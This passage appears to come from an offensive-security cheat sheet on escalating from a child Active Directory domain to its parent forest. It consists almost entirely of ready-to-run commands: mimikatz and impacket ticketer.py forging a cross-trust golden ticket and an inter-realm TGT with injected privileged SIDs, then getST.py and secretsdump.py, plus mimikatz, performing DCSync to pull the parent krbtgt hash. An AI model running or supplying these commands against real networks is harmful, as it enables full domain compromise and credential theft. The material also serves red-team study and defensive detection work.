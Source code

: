 Create cross-trust golden ticket:

{% tabs %}
{% tab title="Windows" %}
```
mimikatz # kerberos::golden /domain:child.megacorp.local /user:DC01$ /id:1 337 /groups:516 /sid:S-1-5-21-4266912945-3985045794-2943778634 /sids:S-1-5-21-2284550090-1208917427-1204316795-516,S-1-5-9 /krbtgt:00ff00ff00ff00ff00ff00ff00ff00ff /ptt [/startoffset:-10 /endin:60 /renewmax:10080]
```
{% endtab %}
{% tab title="Linux" %}
```
$ ticketer.py -domain child.megacorp.local -domain-sid S-1-5-21-4266912945-3985045794-2943778634 {-nthash <RC4_32> | -aesKey <AES_64> } [-groups 516] [-user-id 1337] [-duration 3650] -extra-sid S-1-5-21-2284550090-1208917427-1204316795-516,S-1-5-9 'DC01$'
```
{% endtab %}
{% endtabs %}

For DCSyncing we'll need only parent domain FQDN (`megacorp.local`):

```
PS > ([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest())[0].RootDomain.Name
megacorp.local
```

DCSync:

```
mimikatz # lsadump::dcsync /user:megacorp.local\krbtgt /domain:megacorp.local
```



### Inter-Realm TGT Forging

Manually craft an IR TGT injecting a privileged SID (example for `WITHIN_FOREST` trust but can also be adopted for `TREAT_AS_EXTERNAL` [case](#attack-forest-trusts)):

```
$ ticketer.py -spn 'krbtgt/MEGACORP.LOCAL' -nthash <MEGACORP_LOCAL_TRUST_NTHASH> -domain child.megacorp.local -domain-sid <CHILD_MEGACORP_LOCAL_SID> -extra-sid <MEGACORP_LOCAL_SID>-516,S-1-5-9 [-groups 516] [-user-id <MEGACORP_LOCAL_DC01_RID>] 'DC01$'
```

Request an ST for DCSync:

```
$ KRB5CCNAME='DC01$.ccache' getST.py -spn 'CIFS/DC02.megacorp.local' -k -no-pass megacorp.local/'DC01$' -dc-ip 192.168.1.11 -debug
```

DCSync:

```
$ KRB5CCNAME='DC01$_CIFS_DC02.ccache' secretsdump.py -k -no-pass DC02.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt' -debug
```


